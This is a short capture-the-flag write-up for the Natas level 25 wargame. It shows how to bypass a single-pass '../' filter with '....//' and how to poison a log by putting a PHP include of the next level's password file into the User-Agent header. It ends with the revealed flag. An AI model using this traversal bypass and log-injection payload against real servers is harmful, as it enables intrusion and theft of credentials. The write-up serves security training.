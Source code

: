 ```yaml
---
layout: default
title: natas25
---
```


Here, we bypass the `Path traversal` detection
```php
if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
}
```
by simply providing something like this, `....//logs/mylog.log`, and then it removes only the first instance.

Then, we can see it appends our `User-Agent` to the log file that is accessible for us, so let's put in the `User-Agent` the value: `<? include "/etc/natas_webpass/natas26" ?>`

![FLAG](./images/level25.png)

**Flag:** ***`cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE`*** 